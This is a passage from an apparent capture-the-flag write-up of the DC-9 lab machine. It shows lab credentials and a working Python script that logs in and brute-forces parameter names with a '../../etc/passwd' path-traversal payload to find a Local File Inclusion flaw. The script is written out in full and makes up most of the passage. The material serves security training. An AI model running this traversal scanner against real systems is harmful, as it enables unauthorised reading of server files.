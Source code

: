 It can be seen that a list of users with their respective passwords were obtained in plain text. 
### Local File Inclusion 

Later with the credentials **admin:transorbital1** we log in to the web application and we find a message at the bottom "File does not exist". 

![](/assets/images/DC-9/screenshot-13.png)

It is possible that a certain parameter is being called and requires include a specific file, but we do not know the parameter name, it is also possible that there's a Local File Inclusion vulnerability, in that case I developed a python script to brute force with a list of common parameters and including the web server passwd file how value, this dictionary can be found in seclists. 

``` bash
#!/usr/bin/python3 

import requests
from colorama import Fore,init

init()
green=Fore.GREEN
gray=Fore.LIGHTBLACK_EX
reset=Fore.RESET

s=requests.session()

def paramenum(p):
    values={
            'username':'admin',
            'password':'transorbital1'
            }

    req=s.post("http://192.168.179.128/manage.php", data=values)
    req=s.get(f"http://192.168.179.128/manage.php?{p}=../../../../../../etc/passwd")
    return len(req.text)

wordlist=open("/opt/seclists/Discovery/Web-Content/burp-parameter-names.txt").read().splitlines()

if __name__=="__main__":
    for parameter in wordlist:
        x=paramenum(parameter)
        if x != 1341:
            print(f"{green}{parameter:20}=> {x}{reset}")
        else:
            print(f"{gray}{parameter:20}=> {x}{reset}")

```
